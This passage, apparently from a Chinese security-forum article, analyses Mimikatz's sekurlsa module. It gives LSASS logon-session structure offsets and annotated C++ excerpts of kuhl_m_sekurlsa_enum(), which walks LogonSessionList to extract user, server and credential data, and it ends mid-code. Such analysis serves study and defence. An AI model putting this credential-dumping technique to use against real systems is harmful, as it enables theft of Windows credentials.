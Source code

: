 可以看到，该结构里包含了用户名（UserName）、域名（Domaine）、登录时间（LogonTime）、凭据（Credentials）以及登录到的服务器（LogonServer）等信息，其中 UserName 在结构中偏移量为 `0x90`，我们可以通过 WinDBG 遍历出所有的用户名，如下图所示。

![image-20221218125821684](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-823deed864f2c150151886bb311459f53fd4e0f3.png)

同理在偏移量为 `0xF8` 处获取登录到的服务器名，如下图所示。

![image-20221218130142586](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-598e9db090b2d287477ff1258b2a90961f6c9b75.png)

Enumerate User Information
--------------------------

回到 `kuhl_m_sekurlsa_enum()` 函数中，定义了以下部分代码用于枚举用户信息。

```c++
if(NT_SUCCESS(status))
{
    sessionData.cLsass = &amp;cLsass;
    sessionData.lsassLocalHelper = lsassLocalHelper;

    if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_2K3)
        helper = &amp;lsassEnumHelpers[0];
    else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_VISTA)
        helper = &amp;lsassEnumHelpers[1];
    else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_7)
        helper = &amp;lsassEnumHelpers[2];
    else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_8)
        helper = &amp;lsassEnumHelpers[3];
    else if(cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_BLUE)
        helper = &amp;lsassEnumHelpers[5];
    else
        helper = &amp;lsassEnumHelpers[6];
    if((cLsass.osContext.BuildNumber &gt;= KULL_M_WIN_MIN_BUILD_7) &amp;&amp; (cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_BLUE) &amp;&amp; (kuhl_m_sekurlsa_msv_package.Module.Informations.TimeDateStamp &gt; 0x53480000))
        helper++; // yeah, really, I do that =)

    securityStruct.hMemory = cLsass.hLsassMem;
    if(securityStruct.address = LogonSessionListCount)
        // 把 LogonSessionListCount 复制到 nbListes 中
        kull_m_memory_copy(&amp;data, &amp;securityStruct, sizeof(ULONG));

    // for(i = 0; i &lt; LogonSessionListCount; i++)
    for(i = 0; i &lt; nbListes; i++)
    {
        securityStruct.address = &amp;LogonSessionList[i];
        data.address = &amp;pStruct;
        data.hMemory = &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE;
        if(aBuffer.address = LocalAlloc(LPTR, helper-&gt;tailleStruct))
        {
            // 把 LogonSessionList[i] 复制到 pStruct 指向的内存中
            if(kull_m_memory_copy(&amp;data, &amp;securityStruct, sizeof(PVOID)))
            {
                data.address = pStruct;
                data.hMemory = securityStruct.hMemory;

                // while((pStruct != &amp;LogonSessionList[i]) &amp;&amp; retCallback)
                while((data.address != securityStruct.address) &amp;&amp; retCallback)
                {
                    // 把 LogonSessionList[i]（pStruct）复制到 aBuffer.address 指向的内存中
                    if(kull_m_memory_copy(&amp;aBuffer, &amp;data, helper-&gt;tailleStruct))
                    {
                        sessionData.LogonId     = (PLUID)           ((PBYTE) aBuffer.address + helper-&gt;offsetToLuid);
```